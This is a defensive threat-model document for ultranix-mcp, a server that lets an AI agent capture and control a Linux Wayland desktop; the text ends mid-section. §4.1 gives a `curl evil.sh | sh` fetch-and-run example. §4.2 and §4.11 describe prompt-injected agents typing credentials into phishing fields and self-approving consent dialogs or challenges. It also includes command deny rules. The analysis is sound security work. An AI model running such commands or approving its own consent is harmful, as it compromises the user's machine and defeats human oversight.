



# Threat Model - ultranix-mcp

**Version**: 1.4.0 - **Status**: Implemented (describes the shipped v1.4.0
system; mitigations marked *post-v1* are roadmap)
**Scope**: ultranix-mcp as deployed on its target environment - a single-user
Wayland/Hyprland desktop on CachyOS (v1.2.0 detection additionally covers
sway/Wayfire/river/KDE/GNOME sessions; v1.3.0 adds the runtime policy
layer; v1.4.0 adds the Wayfire `wayfire-ipc`, river `riverctl`, and GNOME
`gnome-shell` Window Calls window rungs, `screen_stream` rolling capture,
and plugin-exposed dynamic tools), consumed by a local or SSH-tunneled MCP
client.

This is the security design document of record. It names the attackers we
design against, maps STRIDE threats onto every component, dissects the
Linux-specific surfaces that generic MCP threat models miss, and - most
importantly - says plainly what we do **not**protect against.

---

## 1. System Overview

```
                ┌────────────────────────────────────────────────┐
                │              MCP client (AI agent)             │
                └───────┬──────────────────────────────┬─────────┘
                   stdio│                    HTTP :3010│
                        │                  (uxcp_* key)│
                ┌───────v──────────────────────────────v─────────┐
                │                 ultranix-mcp                   │
                │  ┌──────────────────────────────────────────┐  │
                │  │ Defense-in-depth pipeline                │  │
                │  │ auth -> rate-limit -> policy -> sanitize   │  │
                │  │   -> whitelist -> path-whitelist          │  │
                │  │   -> consent-gate -> audit                │  │
                │  └──────────────────────────────────────────┘  │
                │  ┌──────────┐ ┌──────────┐ ┌───────────────┐   │
                │  │ capture  │ │  input   │ │  observation  │   │
                │  │ backends │ │ backends │ │   backends    │   │
                │  └──────────┘ └──────────┘ └───────────────┘   │
                └───────┬───────────────┬────────────────┬───────┘
                        │               │                │
        ┌───────────────v───┐  ┌────────v─────────┐  ┌───v──────────────┐
        │  Wayland/Hyprland │  │  kernel input    │  │  session buses   │
        │  wlr-screencopy   │  │  uinput/evdev    │  │  AT-SPI2, hyprctl│
        │  zwlr_virtual_*   │  │  XDG portals     │  │  CDP :9222       │
        └───────────────────┘  └──────────────────┘  └──────────────────┘
                        │               │                │
                ┌───────v───────────────v────────────────v───────┐
                │        ~/.ultranix-mcp/  (storage)             │
                │  history.json (AES-256-GCM, UNXHIST2 frames)   │
                │  logs/audit.jsonl - plugins/*.json             │
                │  captures/rec-* (bounded screen_record output) │
                │  captures/stream-* (rolling screen_stream out) │
                └────────────────────────────────────────────────┘
```

### Trust boundaries

| Boundary | Crosses when... | Consequence if violated |
| -------- | ------------- | ----------------------- |
| **TB-1: Client ↔ server**| stdio spawned, or HTTP `:3010` reached | Attacker issues tool calls |
| **TB-2: Server ↔ compositor/kernel**| Wayland protocols, uinput, portals invoked | Input injected, pixels captured |
| **TB-3: Server ↔ filesystem**| `~/.ultranix-mcp/`, `/tmp`, whitelisted paths touched | History/keys/screenshots read |
| **TB-4: Server ↔ session buses**| AT-SPI2, hyprctl socket, CDP used | Window contents/input observable by bus peers | **Core assumption**: the interactive session user and the machine's physical
owner are the same person, and that person trusts the AI client they
configured. ultranix-mcp hardens the *path between* client and desktop; it does
not arbitrate whether a legitimate client's *intent* is good.

---

## 2. Threat Actors

| Actor | Capability | Motivation | In scope? |
| ----- | ---------- | ---------- | --------- |
| **Malicious / compromised MCP client**| Holds a valid `uxcp_*` key or stdio channel; issues arbitrary tool calls | Data exfiltration via screenshots/a11y tree; destructive input | Primary |
| **Prompt-injection-driven misuse**| Indirect: content the agent reads (web page, doc) steers its tool calls | Same as above, unwitting client | Primary |
| **Local unprivileged process**| Same UID or other local UID; can reach `:3010`, session buses, `/tmp`, procfs | Steal screenshots/history, piggyback the port, inject input | Primary |
| **Supply-chain compromise**| Malicious crate, model file, or build-time dep | RCE inside the server process | Primary |
| **Network attacker (LAN)**| Can reach `:3010` only if mis-bound | Full remote desktop control | (mitigated by bind + auth) |
| **Root / kernel adversary**| Owns the box | - | Out of scope: nothing in userspace defends root |
| **Malicious compositor / distro**| Owns the display server | - | Out of scope: we *are* its client |
| **Physical attacker**| Unlocked session or cold disk | - | Partially: disk encryption and `0600` files raise the bar | ---

## 3. STRIDE Analysis per Component

### 3.1 Transport - stdio

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Spoofing | Another local process impersonates the server to the client (or vice versa) via socket/path substitution | None at protocol level - stdio trust is inherited from process-spawn semantics | **Accepted**: spawning as the user is the boundary |
| Tampering | Man-in-the-middle on the pipe | Not possible without ptrace-level access, which already implies code execution as the user | Accepted |
| Repudiation | Client denies tool calls it issued | Every invocation logged to `audit.jsonl` regardless of transport | Low |
| Information disclosure | Sibling processes sniff stdio | Same-UID sniffing requires ptrace/debug perms; different UID cannot | Low |
| DoS | Client floods stdin | rmcp framing + bounded read buffers; worst case is a busy local process | Low |
| EoP | None - server runs as the invoking user; no privilege to escalate into | N/A | - | ### 3.2 Transport - streamable HTTP `:3010`

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Spoofing | Unauthenticated requests; stolen `uxcp_*` key replayed | Mandatory API key unless `ULTRANIX_MCP_DISABLE_AUTH=true`; SHA-256 hashed compare, constant-time; per-request `auth.failure` audit | Medium: no key rotation enforcement, no mutual auth - see §6 R-1 |
| Tampering | LAN attacker modifies plaintext HTTP | **No built-in TLS.**Recommended: loopback bind or SSH tunnel | Medium if exposed; Low on loopback |
| Repudiation | Key shared across clients muddies attribution | Rate-limit/audit identity = key-ID (SHA-256 prefix); one key per client recommended; v1.3.0 `policy.toml keys` can also bind each key-ID to a least-privilege role | Medium if keys shared |
| Information disclosure | Response sniffing on LAN | Same as Tampering | Same |
| DoS | Request flood / slow-loris | 10 req/s token bucket per client; connection caps; body-size limits | Low-Medium |
| EoP | HTTP-layer bug reaching whitelisted `exec` | Sanitization + closed whitelist sit *behind* auth, not instead of it | Low | ### 3.3 Auth & rate limiting

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Spoofing | Brute-force `uxcp_*` key | 32-byte random space; failures audited with source addr; token bucket slows online guessing to 10/s - still ~10³⁶ years to cover the space | Negligible |
| Tampering | Env var overwritten by parent process | Parent already controls the child - accepted | - |
| Information disclosure | Key in process env readable via `/proc/<pid>/environ` | Same-UID readability is a Linux property; dedicated service user reduces cross-read | Medium - see §6 R-3 |
| DoS | Auth check bypass via `ULTRANIX_MCP_DISABLE_AUTH=true` planted in unit file | Requires local config write - that actor already owns the host | Low | ### 3.4 Tools / request pipeline

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Spoofing | Tool call forged as "system" | No privileged tool identity; all calls equal through the pipeline | - |
| Tampering | Argument smuggling past sanitization (e.g. unicode tricks, `\n` injection into `hyprctl dispatch`) | Metacharacter denylist + per-tool arg validators; args passed as `exec` argv, never a shell string | Medium - parser bugs are the classic failure |
| Repudiation | "The AI did it" | `audit.jsonl` records tool, `args_hash` (never raw args), `key_id`, outcome, latency; `prev_hash` chains each record to its predecessor | Low |
| Information disclosure | Secret-bearing tool output/error strings echoed into logs | Args stored as `args_hash` only; secret-pattern redaction on recorded output strings; history encrypted | Medium - heuristics miss novel secrets, §6 R-5 |
| DoS | Legit-looking calls at max rate starve the desktop (e.g. screenshot loop) | Token bucket; capture tools carry their own latency cost | Medium |
| EoP | `system_command`-style tool -> whitelist escape | **Arg-constrained**command whitelist `{grim, slurp, hyprctl, scrot, xdotool, wmctrl}`: `hyprctl` limited to read subcommands + a fixed `dispatch` set with `exec`/`exec-once` denied; `busctl`/`gdbus` removed; `xdotool`/`wmctrl` X11-fallback only; all binaries resolved to absolute paths and pinned at startup. Path whitelist `{$XDG_RUNTIME_DIR, /tmp, ~/.ultranix-mcp/**}` applied after canonicalization (symlink-safe) | Low - residual is semantic misuse of *allowed* args, §4.13, §6 R-2 | ### 3.5 Backends - capture

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Info. disclosure | wlr-screencopy gives full-screen pixels to any compositor-authorized client - including captured sensitive windows | Backend preference order; portal fallback surfaces consent; captured data stays in memory | Medium - compositor policy is the real gate |
| Spoofing | Fake portal implementation on the bus | Portals resolve via the user's portal frontend (`xdg-desktop-portal-hyprland`); a hostile session could register a fake portal - but a hostile session already owns the bus | Low in-scope | ### 3.6 Backends - input

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| EoP (de facto) | uinput writes are *physical-equivalent*: can type at `sudo` prompts, polkit dialogs, screen lockers | **Prefer `zwlr_virtual_pointer_v1` + virtual-keyboard**(compositor-sandboxed, session-scoped, no root). uinput/evdev only as fallback with dedicated-group udev rule | **Medium-High when uinput active**, §4.1 |
| Tampering | Injected keystrokes reorder/drop | Protocol-level; compositor virtual input is reliable | Low |
| Spoofing | Another uinput-capable process races input | Dedicated group limits holders; cannot eliminate same-user uinput peers | Medium | ### 3.7 Backends - observation & control

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Info. disclosure | **AT-SPI2 a11y tree is readable by ANY process on the session bus**- window titles, text fields, sometimes values | None available at our layer; it is the designed bus trust model. Documented loudly, §4.3 | **High, inherited**|
| Info. disclosure | hyprctl IPC socket readable/abused by session peers (same class: sway's `$SWAYSOCK` since v1.2.0; Wayfire's `$WAYFIRE_SOCKET` and GNOME's Window Calls D-Bus object since v1.4.0) | Socket lives in `$XDG_RUNTIME_DIR` (0700); we don't weaken it. `riverctl` reaches the same class through a pinned subprocess, not a socket. GNOME's rung deliberately avoids `org.gnome.Shell.Eval` (arbitrary JS); the Window Calls extension exposes a fixed window verb set | Medium |
| Spoofing | **CDP `127.0.0.1:9222`**- any local process can connect and fully control the browser profile | Loopback-only bind; documented as *the browser's own* exposure, not ours | Medium-High if user enables it, §4.7 | ### 3.8 Storage

| STRIDE | Threat | Mitigation | Residual |
| ------ | ------ | ---------- | -------- |
| Info. disclosure | `history.json` read by backup tools / same-UID peers | AES-256-GCM at rest; dir `0700` | Low at rest; plaintext exists in memory |
| Tampering | Audit log rewritten to hide activity | Append-only JSONL, `prev_hash` chaining; **optional per-line HMAC-SHA256**(`ULTRANIX_MCP_AUDIT_SECRET`, v1.3.0) turns truncation/splicing into detectable forgeries - but the key lives in the same env an attacker may read, §6 R-6 | Medium (Low-Medium with HMAC + a protected secret) |
| Info. disclosure | `/tmp` screenshot residue | `mktemp` + `0600` + deterministic cleanup; `PrivateTmp=yes` under systemd recommended | Low |
| EoP | Key material on disk | Keys live in env, never written by the server | Low | ---

## 4. Linux-Specific Attack Surfaces (detailed)

### 4.1 uinput / evdev - the sharpest privilege edge

**Risk.**`/dev/uinput` creates *kernel-trusted* input devices. Keystrokes
injected here are indistinguishable from the physical keyboard to **every**
consumer - `sudo`, polkit, `systemd-ask-password`, the screen locker. The
Wayland virtual-input protocols, by contrast, are compositor-mediated and
session-scoped.

**Attack path.**If the service user holds uinput access, then any
vulnerability in ultranix-mcp (or any *other* process as that user) converts
into physical-equivalent input -> e.g., type `curl evil.sh | sh` into an
open terminal, or answer a polkit prompt.

**Mitigation & operator guidance.**

```udev
# /etc/udev/rules.d/99-ultranix-mcp-uinput.rules
SUBSYSTEM=="uinput", MODE="0660", GROUP="ultranix-input", OPTIONS+="static_node=uinput"
```

- Create group `ultranix-input`; add **only**the service user. Never
  `MODE="0666"`, never reuse the `input` group (which grants read of *real*
  devices - a keylogger permission).
- Load-bearing warning to ship in docs: enabling uinput grants
  **physical-keyboard equivalence**. Prefer Wayland virtual input whenever
  `zwlr_virtual_pointer_v1` is available (Hyprland supports it).
- Startup probe: if uinput is the selected backend, emit an explicit
  `backend.uinput.active` audit event + stderr warning; the shipped
  `ultranix_mcp_backend_active{backend="uinput"}` gauge exposes the same
  signal to Prometheus (and `/readyz` reports provider resolution).

### 4.2 XDG portal consent dialogs - spoofing & clickjacking

**Risk.**RemoteDesktop/Screenshot portals ask the user via a dialog. Two
failure modes: (a) a local app fakes the consent UI to harvest an approval, or
(b) an injected click "approves" the real dialog - and **ultranix-mcp itself
can inject clicks**, so a prompt-injected agent could approve its own portal
request.

**Mitigations.**

- Portals are **last resort**in the backend order - wlr-screencopy and
  virtual input avoid the dialog path entirely on Hyprland.
- Persisted portal tokens (`persist_mode`) are disabled where the portal
  supports it - every session re-consents.
- Document the self-approval loop: **consent dialogs rendered on a desktop the
  agent can click are not a hard boundary.**Operators who want real consent
  gating should disable virtual-input backends or avoid portal fallbacks.
- Residual: a hostile local app spoofing the portal frontend itself is
  out-of-scope (that app already owns the session).

### 4.3 AT-SPI2 accessibility bus - read access by design

**Risk.**On the session bus, the AT-SPI2 tree is readable by any local
application: window titles, focused element, text content, and - depending on
the toolkit - **editable field values**. This is the platform's trust model;
ultranix-mcp inherits it, it does not create it.

**Consequence.**Enabling a11y tools means accepting that *any* same-session
process can read what ultranix-mcp reads. Conversely, ultranix-mcp's a11y
reads are no more dangerous than the ambient exposure - but they make the
exposure *easy to exfiltrate through an MCP client*.

**Mitigations.**

- a11y-reading tools are individually auditable; a paranoid deployment can
  refuse them via config.
- Document: do not run untrusted GUI apps in the same session if the a11y
  tree contents matter. (This is generic Linux advice we cannot fix.)

### 4.4 hyprctl IPC socket exposure

**Risk.**`$XDG_RUNTIME_DIR/hypr/<sig>/.socket.sock` accepts commands -
`dispatch exec`, `keyword`, window rules - from any process that can open it.
Permissions are session-user-only by default, but: containers/flatpaks with
`$XDG_RUNTIME_DIR` bind-mounted, or sloppy socket sharing, widen that.
sway's `$SWAYSOCK` (v1.2.0 `SwayWindow`) is the same exposure class - a
session-scoped, user-owned command socket; the same "never forward into
sandboxes" guidance applies. v1.4.0 adds two more members of the class:
Wayfire's `$WAYFIRE_SOCKET` (`wayfire-ipc` - a command socket in
`$XDG_RUNTIME_DIR`) and GNOME's Window Calls D-Bus object (`gnome-shell` -
session-bus exposure; it deliberately does **not**use
`org.gnome.Shell.Eval`, the arbitrary-JS primitive). `riverctl` differs in
shape but not class: a pinned provider-internal subprocess rather than a
socket (§4.13).

**Mitigations.**

- Never forward the socket into sandboxes/containers; document against it.
- `hyprctl` remains in the command whitelist but is **arg-constrained**:
  read subcommands (`clients`, `activewindow`, `monitors`, `workspaces`)
  plus `dispatch` restricted to `focuswindow`, `movewindow`,
  `resizewindow`, `workspace`, `movetoworkspace`. **`dispatch exec` and
  `exec-once` are denied at the validator**- the free-form command string
  that made hyprctl the sharpest whitelisted primitive is unreachable
  through `system_command`. The residual is semantic: `dispatch workspace`
  can still shuffle windows on an injected agent's behalf (§6 R-2).
  Operators can remove `hyprctl` from the enabled whitelist for
  input-only deployments.

### 4.5 Wayland screenshot consent UX

**Risk.**wlr-screencopy has no per-capture prompt - compositor policy decides
which clients may capture. Portal Screenshot has a dialog but suffers §4.2.
There is no "consent per screenshot" on Hyprland today.

**Honest position.**On the target platform, an authorized ultranix-mcp can
screenshot at will. The mitigation is *who is authorized* (TB-1), not consent
UX. Documented, not overclaimed.

### 4.6 `/tmp` screenshot leakage

**Risk.**Tools like `grim`/`scrot` write to a path. A predictable filename in
world-readable `/tmp` lets any local UID steal frames (CVE-classic:
`/tmp/screenshot.png` squatting).

**Mitigations.**

- `mktemp`-style unique creation, mode `0600`, inside the path whitelist.
- TOCTOU hardening per TOOLS.md *Capture Output Writes*: capture output is
  written inside a fresh `mktemp`-dir under `~/.ultranix-mcp/captures/`
  (preferred) or `/tmp`, opened with `O_NOFOLLOW` at mode `0600` - the
  unpredictable directory plus the no-follow open closes the
  check-then-write symlink-swap race.
- Explicit `remove_file` after the tool returns; cleanup also on error paths.
- systemd `PrivateTmp=yes` recommended - makes `/tmp` per-service outright.
- Prefer `$XDG_RUNTIME_DIR` (already `0700`, tmpfs, per-user) over `/tmp` when
  a tool permits the path.
- The path whitelist is deliberately **narrow**: `$XDG_RUNTIME_DIR`, `/tmp`,
  and `~/.ultranix-mcp/**` only. `$HOME` at large was removed because a
  `scrot -o ~/.bashrc`-style call would turn a capture tool into a
  dotfile-overwrite / persistence vector - the narrowed scope closes it.

### 4.7 CDP `127.0.0.1:9222` hijack

**Risk.**Chrome DevTools Protocol is unauthenticated by design. Any local
process - not just ultranix-mcp - that connects to `:9222` can navigate, read
cookies/page content, and execute JS in the profile.

**Mitigations.**

- ultranix-mcp only ever dials `127.0.0.1:9222`; it never exposes CDP onward.
- Document for operators: launching a browser with
  `--remote-debugging-port=9222` exposes that profile to every local process.
  Prefer `--remote-debugging-pipe` where the toolchain allows (file-descriptor
  CDP has no socket to hijack), or run the debug browser as a dedicated
  profile/user.
- Cannot be fully mitigated by us - flagged §6 R-4.

### 4.8 Clipboard tools (v1.2.0) - read exposure & write consent

**Risk.**`clipboard_get` returns whatever the session clipboard holds -
which routinely includes copied credentials, tokens, and private text -
to any caller that clears TB-1. `clipboard_set`/`clipboard_clear` can
poison or destroy the user's clipboard state (e.g. swapping a copied
address for an attacker's).

**Mitigations.**

- Text-first contract: only text MIME payloads cross the provider
  boundary; `mime: "list"` enumerates offered types without pulling
  binary blobs - image/binary data stays inside the helper process.
- `clipboard_set` payload capped at 1 MiB UTF-8; fed to `wl-copy`/`xclip`
  over stdin, never argv (the payload does not appear in `/proc/*/cmdline`
  of the helper).
- `clipboard_set`/`clipboard_clear` joined the destructive consent class -
  `-32015 ConsentRequired` challenge on first call (§4.11 gate). `clipboard_get`
  is ungated, matching the read-tools policy: the exposure is the ambient
  same-session readability of the clipboard, which we make auditable but
  cannot create or remove.
- Helpers are startup-pinned absolute binaries spawned with a scrubbed
  environment and bounded execution; they are provider-internal - no
  `validate_command` arm, so `system_command` cannot invoke them.

**Residual.**Medium: an authorized/injected client can read clipboard
contents and exfiltrate them through its own channel - the same residual
class as `screenshot` (§6 R-2). The gate covers writes; reads are
audited like every other call.

### 4.9 Plugin tool-macros (v1.2.0) - declarative, not code

**Risk.**`<state-root>/plugins/*.json` manifests define named macros an
agent can run by `plugin_run`. A tampered or hostile manifest could chain
destructive tools into a single call - laundering several gated actions
behind one innocuous name.

**Mitigations.**

- Manifests are **data, not code**: a plugin is an ordered list of
  catalog-tool calls with `${param}` templating. There is no eval, no
  shell, no new binary on the path - a plugin can reach nothing that is
  not already a registered tool.
- Validation is strict: `name` `^[a-z][a-z0-9-]{0,63}$` and must not
  collide with a catalog tool name; semver-ish `version`; typed params
  (`string`/`number`/`boolean`, ≤64); 1-32 steps; `step.tool` must be a
  real catalog tool and **`plugin_*` steps are rejected**- plugins cannot
  compose into unbounded recursion.
- **Per-step secured dispatch**: each step re-enters the normal tool
  pipeline - consent re-challenge, audit, history, and metrics apply per
  step. Consent for `plugin_run` does **not**authorize a destructive
  step; a step's `-32015` passes through annotated with
  `plugin`/`step`/`step_tool` so the operator sees *which* step asked.
- Scanning is read-only and fresh on every call - no cached manifest can
  go stale-evil between calls; `plugin_reload` surfaces loaded-vs-skipped
  diagnostics so rejected manifests are visible, not silent.
- The manifest directory lives under the `0700` state root - writing a
  plugin requires the same-UID filesystem access that already grants
  `history.json` and the audit log.

**Residual.**Medium: a same-UID attacker can already edit the manifest
dir, and a *valid* manifest still chains semantically-powerful tools -
bounded by per-step consent and audit, same residual class as §6 R-2.

### 4.10 Bounded `screen_record` output (v1.2.0)

**Risk.**A recording tool writes frames to disk - an attacker-controlled
output path or unbounded run could fill the disk or overwrite files.

**Mitigations.**Output goes to a fresh server-owned `rec-<ulid>` `0700`
dir under the captures root (`<state>/captures` preferred, `/tmp`
fallback - never a caller-chosen path), hard-capped at 600 frames and
512 MiB written with a `manifest.json` audit of every frame; the call
runs to its bound (no mid-record cancellation) and is not consent-gated
because nothing caller-chosen is written. Residual: low - same disk-write
class as the §4.6 capture-output rules.

### 4.11 Prompt-injection abusing `type_text` / `system_command`

**Scenario.**The agent reads a malicious page/doc; embedded instructions
steer it to `type_text` credentials into a phishing field, attempt a
destructive-class call (`system_command` -> `-32015 ConsentRequired`), or
screenshot-then-describe secrets.

**Mitigations (defense in depth, partial by nature).**

- Arg-constrained command + narrowed path whitelists bound *what* calls can
  do - `dispatch exec` is denied and `$HOME` is out of write scope - but
  `type_text` and the permitted `dispatch` set remain semantically
  powerful. **Whitelist ≠ intent filter.**
- **Consent gate**: the destructive class (`system_command`,
  `clear_action_history`, `replay_action`, `window_control{action:close}`,
  `clipboard_set`, `clipboard_clear`)
  fails first use with `-32015 ConsentRequired` plus a short-lived (60 s),
  single-use challenge token; the client must surface it to the operator
  and re-issue with `consent_token`. Tokens are CSPRNG-generated (≥128
  bits) and bound to `{key_id or stdio session id, tool, args_hash}`, so a
  token cannot be transplanted across callers, tools, or arguments - and
  `replay_action` never inherits the original call's consent: replaying a
  destructive-class record re-challenges through the full gate. Because
  the challenge travels the MCP channel rather than a rendered dialog, the
  §4.2 self-approval loop does not directly apply - but a client that
  auto-approves challenges defeats it. `--allow-destructive` bypasses for
  trusted local use and is logged.
- Complete audit trail: every call logged with `args_hash` (raw args are
  never persisted) and `prev_hash` chaining - supports after-the-fact
  forensics and makes silent log edits detectable.
- **Replay/history**: encrypted `history.json` lets the operator replay the
  exact action sequence that executed.
- Operator-side recommendations (outside our control): run agents with
  human-in-the-loop confirmation for input tools; scope client permissions.

**Residual: HIGH.**This is the dominant real-world risk and is stated as such
in §6 R-2. No technical control at our layer distinguishes a legitimate
instruction from an injected one when both arrive over an authenticated
channel.

### 4.12 Supply chain

| Vector | Mitigation |
| ------ | ---------- |
| Malicious/vulnerable crate | `Cargo.lock` committed, `--locked` builds, `cargo audit` + `cargo deny` in CI gating release |
| Dependency confusion / typosquat | Exact-version pinning; new deps require review; prefer crates with >1 maintainer |
| Tampered ONNX model | SHA-256 checksum verified post-download before first load; models live in `~/.ultranix-mcp/models/` `0700`-protected |
| Build-tooling compromise | Reproducible-build aspirations; CI provenance via release workflow attestation (target state) |
| rmcp/protocol-level vuln | Track upstream advisories; transport-layer fuzzing in test plan | ### 4.13 Whitelisted-binary abuse and PATH hijacking

Whitelist membership alone is not a bound on *what the binary will do with
its arguments*. Each member was audited for its sharpest reachable
primitive:

- **`hyprctl dispatch exec` / `exec-once`**- a free-form command string
  executed by the compositor as the session user. Left unconstrained this
  is arbitrary code execution via a whitelisted binary (§4.4). **Denied by
  arg constraints**: `dispatch` accepts only
  `focuswindow|movewindow|resizewindow|workspace|movetoworkspace`.
- **`busctl` / `gdbus`**- generic D-Bus clients. With them whitelisted, a
  tool call could invoke e.g. the systemd manager's `StartTransientUnit`
  with an arbitrary `ExecStart` - arbitrary exec again, plus unrestricted
  reads of any bus-exported API. **Removed from the whitelist entirely**;
  portal and AT-SPI2 access happens in-process via `zbus` against known
  interfaces, never through a general-purpose D-Bus CLI.
- **`xdotool` / `wmctrl`**- X11 tools that inject keystrokes/clicks into
  any XWayland client, including terminals: `xdotool type` into an open
  shell is command execution. **Restricted to the X11-session fallback
  backend**- refused outright under Wayland sessions, where the
  compositor-scoped virtual-input path exists instead.
- **`scrot`**- a harmless read tool except its output path: confined to
  the path whitelist so a capture cannot overwrite a dotfile.
- **`wl-copy` / `wl-paste` / `xclip` / `xsel` / `kdotool`**(v1.2.0) -
  pinned at startup for the clipboard providers and the KDE window rung
  (`KdotoolWindow`), but with **no `validate_command` arm**-
  provider-internal only, unreachable through `system_command`. Clipboard
  payloads travel over stdin (never argv), helpers run with a scrubbed
  environment and bounded execution; `kdotool` dispatches are built from
  a closed action set (`kwinscript` arbitrary-JS is unreachable) and
  window ids are shape-validated before reuse.
- **`riverctl`**(v1.4.0) - same pin-only posture for the river window
  rung (`RiverWindow`): startup-pinned absolute path, scrubbed env,
  bounded wait, **no `validate_command` arm**. `RiverWindow`'s dispatch
  layer maps to a closed verb set (`close`, relative
  `move <dir> <delta>`, `resize <axis> <delta>`); the rest of riverctl's
  surface (`spawn`, `send-layout-command`, etc.) is unreachable. At the
  tool surface, `window_control` reaches the focused view via
  `window:"focused"`/an omitted selector and the relative `dx,dy`/`dw,dh`
  params; `get_windows`/`get_active_window` still report unavailable
  (no list IPC).
- **PATH hijacking**- if whitelist members were invoked by bare name, a
  writable directory earlier in `PATH` (or a modified environment) could
  substitute a trojaned `hyprctl`. **All whitelisted binaries are resolved
  to absolute paths at startup and pinned**; `PATH` is consulted once at
  resolution time and never again, so post-start hijack is impossible.

**Residual.**Arg constraints deny the *exec-capable* arguments; they do
not judge intent. An injected agent can still move windows, focus attacker
chosen targets, and drive input - bounded, audited, consent-gated where
destructive, but real (§6 R-2).

### 4.14 Runtime policy layer (v1.3.0) - least-privilege enforcement

**Risk.**Bearer-key auth (TB-1) is binary: any valid `uxcp_*` key reaches
the full 40-tool catalog. A scoped-down key for a read-only observer, or a
"no input tools" profile for an untrusted agent, was previously
impossible - every caller was as powerful as every other.

**Mitigations.**

- A `Policy` loaded at startup from `policy.toml`
  (`~/.config/ultranix-mcp/policy.toml` or `--policy=`), layered with the
  `--readonly` / `--allow-tools=` / `--deny-tools=` CLI flags, resolves
  every `tools/list` and `tools/call` through a `Role`
  (`readonly` preset ∪ `allow_tools`, minus `deny_tools` - deny always
  wins). `tools/list` is *filtered*, so a denied tool is neither
  advertised nor callable by name-guessing.
- The policy check runs **before**consent, provider lookup, or any side
  effect; denials audit `denial_reason` (`readonly_mode` /
  `not_in_tool_list`) and return `-32018`/`-32019`. Plugin steps and
  `replay_action` re-enter the same check under the same caller identity -
  no dispatch path bypasses it.
- **Per-key scoping**: `keys` maps 8-hex `key_id` fingerprints to named
  roles, so different HTTP clients get different surfaces. Unmapped keys
  and stdio resolve to `default_role`.
- **Fail-closed loading**: an explicit `--policy` path that is missing or
  malformed aborts startup; `deny_unknown_fields` turns misspelled TOML
  keys into errors; `keys` entries referencing undefined roles abort
